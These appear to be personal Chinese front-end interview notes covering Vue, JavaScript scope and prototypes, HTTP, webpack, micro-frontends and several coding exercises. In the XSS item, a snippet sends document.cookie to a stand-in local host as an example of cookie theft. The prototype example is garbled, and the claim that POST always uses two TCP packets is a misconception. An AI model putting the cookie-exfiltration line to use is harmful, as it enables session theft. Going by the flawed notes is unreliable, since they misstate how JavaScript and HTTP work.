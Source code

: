 1. vue中的事件修饰符native有什么用 （绑定原生事件）
2. vue中beforeDistoryed有什么用
3. Vuex中如何触发mutaion方法  this.$store.commit( )


4. 
```js

    let p2 = new Promise((resolve,reject)=>{
        console.log(1)
        resolve(2)
        console.log(3)
    }).then(res=>{
        console.log(res)
    })

```

```js
//作用域
var a = 10;
(function(){
    console.log(a) //undefined
    a = 15;
    console.log(window.a) //10
    var a = 20;
    console.log(a) //20
})()

```

5. 防止xss 修改cookie  设置http-only 
```js
// 盗用cookie
axios.get('http:localhost:8888',{
    params:{
        cookie:document.cookie
    }
})



```
6. 三次握手 四次挥手
7. image  script  iframe有啥区别
8. https一定比http安全吗  get请求

9. 斐波那契数列 优化

10. 解析查询字符串
11. 原型链
12. js文件互相引用  cmj ems amd cmd 
腾讯面试 ：
1面
304状态码  箭头函数的区别； defer async  script标签  ； 算法排序 ； jsbridge原理； 深拷贝；防抖；如何判断重复引用； call, apply ,bind原理；闭包一系列；promise all 和race  已经all出现报错怎么处理 ；js类型；css选择器 权重； 异步形式；koa2；co包 ；
2面 
手写虚拟滚动 时间分片
大数据如何缓存；
虚拟滚动和elementui的虚拟滚动 哪个性能更高 ；  为什么 ； 
时间分片的原理    递归和for循环  性能更高 ；
vue是运行时编译？  
如何判断一个网站好不好；

3面
moc mvvm  ； jquery和vue ； sesstion cookie； http报文； get和post区别； 服务端判断状态有几种方式
  get和post区 重点区别
        GET会产生一个TCP数据包，而POST会产生两个TCP数据包。
        详细的说就是：
        对于GET方式的请求，浏览器会把http header和data一并发送出去，服务器响应200(返回数据);
        而对于POST，浏览器先发送header，服务器响应100 continue，浏览器再发送data，服务器响应200 ok(返回数据)。


吉利1面 架构师
微前端的理解  实现原理 适用场景  解决什么问题  哪些方式可以实现微前端 如何搭建微前端  
前端工程化的理解 组件库搭建   文档如何实时更新      
webpack 原理 打包流程 插件机制 loader原理以及区别 优化     传入一个compiler和comption有啥区别 源码 二次开发一个插件  
如何部署  cicd  nginx 大文件上传  短连接  长链接配置  失效 
性能优化   浏览器缓存机制  命中强缓存   
Vue源码   





## 制定战略目标  
## 分析战略目标指定周期目标  
## 细分周期目标制定短期计划 重复迭代  
## 每周短期计划复盘  
## 每月中期计划复盘 


佳杰云星
flex布局实现3个一行左对齐
捕获错误的方式有哪些
js原型和原型链
```js
    function Person(){} //构造函数
    // 原型 
    Person = == Person.prototype.constructor; //实例原型

    const person = new Person() //实例对象
    person._proto_ === Person.prototype 
```

精度丢失的原因以及解决方案 big.js
vue2 v-if和v-for  
  vue2中 v-for的优先级高于v-if 同一个标签上页面每次渲染的时候都会重新判断消耗性能
vue3 中 v-if优先级高于v-for 当v-if依赖v-for的数据源时，会报错
vue2 单向数据流 修改props中的对象 vuex provide/inject
如何监听localstorage数据变化，需要封装新的js方法拦截localstorage
echarts版本 5.x  实现原理(1.轻量级js图形库，mvc框架，数据驱动，MVC:模型层，视图层，控制层)
git 分支操作  dev分支  prod分支  合并dev指定分支到prod分支 
history和hash路由的区别
微前端 qiankun框架有什么优缺点（优点：技术无关，独立开发测试部署，增量升级，独立运行，团队独自管理，；不足：难以维护，维护成本高，技术混乱）

佳杰云星2面
架构设计
代码规范
服务的渲染
前端安全 xss csrf  a标签安全隐患<a href="https://niteshsoni.info" rel="noopener noreferrer"></a>
产品设计
分片上传，断点续传
pm2的原理


vivo
3道面试题
```js
    /**
 * 题目： 字符串中划线转驼峰式
 * 输入： 'this-is-a-selector'
 * 输出： 'thisIsASelector'
 * 测试： camelize('this-is-a-selector') === 'thisIsASelector'
 */
function camelize(str) {
  if (typeof str !== "string" || !str) return;
  let tempArr = str.split("-"); 
  const toUpperCase = (word) => {
    let tempArr = word.split("");
    tempArr[0] = tempArr[0].toUpperCase(); 
    return tempArr.join('');
  };
  const arr = []
  tempArr.forEach((temp, i) => { 
    if (i > 0) {
      temp = toUpperCase(temp); 
    }
    arr.push(temp)
  });
  return  arr.join("");
}
console.log(camelize("this-is-a-selector"));
// console.log(camelize("this-is-a-selector") === "thisIsASelector");

/**
 * 题目：找出字符串字母出现次数
 * 输入： 'abc,abc,aaa'
 * 输出： {a:5, b:2, c:2, ',':2}
 * 测试： console.log(find('abc,abc,aaa'))
 */
function find(string) {
    const cache = {}
    const tempArr = string.split('')
    tempArr.forEach(k=>{
        if(cache[k]){
            cache[k] += 1
        }else{
            cache[k] = 1
        }
    })
    return cache 
}
console.log(find("abc,abc,aaa"));

/**
 * 题目: 手机号加密
 * 输入：15929485138, '*', 3, 4 从第3位开始的后4位替换为*
 * 输出: 159****5138
 * 测试: console.log(secretMobile(15929485138, 3, 4, '*'))
 */
function secretMobile(mobile, start, length, symbol) {
   let tempArr = String(mobile).split('') 
   const replaceKeys = new Array(length).fill(symbol) 
   tempArr.splice(start,length,replaceKeys) 
   return tempArr.flat(1).join('')
}
console.log(secretMobile(15929485138, 3, 4, "*"));

```
flex布局
vue父子组件通信
响应式原理
computed和watch的区别
    1.computed是计算属性，watch是监听属性变化执行对应的回调
    2.是否调用缓存，computed中的依赖没有发生变化的时候，是直接从缓存中读取数据，watch是监听到数据变化就会执行回调函数
    3.是否return computed函数必须要return返回，而watch没有必要返回
    4.computed默认第一次加载的时候就开始监听，而watch默认一次是不监听，如果第一次监听需要设置immediate:true
    5.computed使用场景则是一个属性受多个属性影响的时候，比如购物车结算；watch的使用场景是当一个数据变化会影响多个属性，比如搜索框
    6.computed支持缓存，watch不支持
    7.computed不支持异步，当computed内部有异步操作时无法监听数据变化，watch支持异步
    8.computed不能和data中的数据重名，watch则是监听data或者computed中的属性名
组件封装的原则
    1.单一职责原则 
    2.接口隔离原则 不依赖其他不需要的接口
    3.依赖倒置原则 不依赖其他组件的
    4.里氏替换原则 子类可以扩展父类的功能，但是不能改变父类原有的功能。
    5.开闭原则  可拓展 不能修改
    其他：负责单一的页面渲染 通用性/复用性 明确接受参数，可扩展，代码逻辑清晰，高性能，低耦合，灵活使用slot，使用computed对props二次封装，css命名规范，事件命名以handler开头，私有方法以_开头，常量用const
    业务组件和UI组件：
        业务组件侧重于数据和业务的逻辑处理
        UI组件一般是基础组件比如elementui组件库，主要是页面效果不耦合任何业务
    原子组件和分子组件和生物组件：
        原子组件是最小的颗粒度的组件 比如input框 button按钮
        分子组件是多个原子组件组成，比如input和label组成一个姓名输入框
        生物组件是通过多个原子组件和分子组件组合成一个完成，比如一个商品展示页面有九宫格，每个宫格是由一个分子组件组成
    模板组件：
        由原子组件和分子和生物组件按照一定的布局结构组成，专注与页面的功能和展示
webpac插件loader编写
history和hash路由的区别


